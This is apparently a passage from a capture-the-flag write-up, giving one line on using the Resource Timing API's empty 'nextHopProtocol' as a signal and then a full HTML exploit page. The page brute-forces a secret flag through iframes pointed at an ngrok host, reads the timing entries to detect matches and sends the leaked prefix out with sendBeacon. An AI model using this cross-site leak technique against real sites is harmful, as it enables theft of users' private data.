 The state I used in my POC was `nextHopProtocol`, which would be equal to "" if the header was not set. So, if our startsWith is correct, `nextHopProtocol` would be empty. 

Exploit:
```html
<html>
    <head>
        <title>Exploit - Ken's Chronicle</title>
    </head>

    <body>

    </body>
    <script>
        async function run() {
            startsWith = window.location.search.substring(1);


            characterSet = "abcdefghijklmno"
            characterSet += "pqrstuvwxyz_{}"


            for (var j = 0; j < characterSet.length; j++){
                bf = startsWith + characterSet[j]
                url = `https://7649ac48b82b.ngrok.io/find?startsWith=${bf}&debug&Timing-Allow-Origin=*`
                
                var iframe = document.createElement('iframe');
                iframe.src = url;
                iframe.onload = "alert()"
                document.body.appendChild(iframe);

            }
        }
        function sleep(ms) {
            return new Promise(resolve => setTimeout(resolve, ms));
        }

        function checker(){
            list = window.performance.getEntriesByType("resource");
            console.log(list)
            for (i=0; i<list.length; i++){
                curr = list[i]
                if (curr.nextHopProtocol == ""){
                    try {
                        navigator.sendBeacon(`?flag=${curr.name.split("startsWith=")[1].split("&")[0]}`)
                    } catch (error) {
                        console.log(error)
                    }
                }
            }
        }

        async function doit() {
            run()
            await sleep(10000);
            checker()
        }
        doit()
    </script>


</html>
```